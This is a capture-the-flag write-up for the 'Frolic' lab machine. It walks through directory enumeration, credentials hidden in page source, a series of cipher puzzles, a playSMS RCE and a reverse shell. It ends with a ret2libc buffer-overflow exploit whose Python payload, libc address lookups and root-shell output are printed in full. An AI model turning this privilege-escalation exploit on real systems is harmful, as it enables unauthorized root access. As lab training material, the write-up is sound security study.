# Frolic

## Gaining Access

Nmap scan:



Interesting stuff.

### Port 9999 Backup

Port 9999 was running a typical `nginx` web application. I used `gobuster` to find some hidden directories.



Going to `/backup` reveals some credentials and another hidden directory.



There was nothing interesting in these files, but I found it rather odd that the `/backup` folder had the `loop/` directory within it.

I proceeded to run `feroxbuster` on the website to recursively enumerate all directories present. This allowed me to find the `/dev/backup` folder which contained another directory.



### PlaySMS

Going to the directory that we just found, we can see another login page.



I viewed the page source, and found the password in the JS code within the page.



Then, when logged in, we find this cipher.



### Crypto Puzzles

From here, the box evolved into a short series of puzzles involving decrypting stuff.

The cipher we just found was an Ook! cipher. When decoded, this is all it says:

```
Nothing here check /asdiSIAJJ0QWE9JAS
```

Afterwards, we would get another cipher.



I recognised this as base64 and attempted to decode it, but it returned non-readable characters.



This was some type of zip folder, because it contained an `index.php` file within it, and also it had the PK file signature (which indicates ZIP folders). So I decoded this to find a password protected zip file, which could be cracked using `zip2john`.



Then, `index.php` was another cipher.

```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

This time, this was in hex. When decoded from hex, we get another cipher:

```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```

Now, it's base64 (as from the double = at the back). When decoded, we get yet another cipher.

```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```

This is the Brainfuck cipher, which can be decoded to find `idkwhatispass`.

### File Upload RCE

Now, we had another credential to try. I attempted logins using `admin:idkwhatispass` and logged in to the playSMS service yet again.


playSMS had a few RCE exploits, so I grabbed one from Github and tried it.





Worked! Now, we can get a reverse shell easily using a bash one-liner.



Then we would gain a reverse shell as `www-data`.

## Privilege Escalation

### Binary Enum

The user on this machine had an interesting `.binary` directory within their home directory.



In the `/home/ayush/.binary` directory, we can find this `rop` SUID binary.



I ran an `ltrace` on the binary and tested it with some random input. I found that this uses the `strcpy` function, which is vulnerable to a BOF exploit.



Ran a `checksec` on it too:

```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

So ASLR is disabled, but NX is enabled. This means the stack is non-executable. As such, we can just do a Ret2Libc attack.

### Ret2Libc

To execute this attack, we would need 3 addresses:

1. `system()` function
2. Address of `/bin/sh`
3. `exit()` function
4. Base address of library (via `ldd`)

To find these, we can search the `/lib/i386-linux-gnu/libc.so.6` file for the respective addresses.

```bash
ldd rop
# 0xb7f74a0b is the base address

# for /bin/sh
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
15ba0b /bin/sh

# for system()
objdump -TC /lib/i386-linux-gnu/libc.so.6 | grep "system"
0003ada0 system

# for exit()
objdump -TC /lib/i386-linux-gnu/libc.so.6 | grep "exit"
0002e9d0 exit
```

For each of these addresses, we would need to find the final address by adding the offset to the base address. This would give the following:

```
exit() -> 0xb7e479d0
system() -> 0xb7e53da0
/bin/sh -> 0xb7f74a0b
```

Afterwards, we need to fuzz the binary to find the number of junk characters required via `pattern_offset.rb`.





We can then create a quick script using Python.

```python
#!/usr/bin/python2
import struct

system_addr = struct.pack("<I", 0xb7e53da0)
exit_addr = struct.pack("<I", 0xb7e479d0)
sh_addr = struct.pack("<I", 0xb7f74a0b)

buffer = "A" * 52
buffer += system_addr
buffer += exit_addr
buffer += sh_addr

print buffer
```

Then, we can run the binary and use the output from this script as the input from `stdin`. This would drop us in a root shell.

```
www-data@frolic:/home/ayush/.binary$ ./rop `python2 /tmp/exploit.py`
whoami
root
```
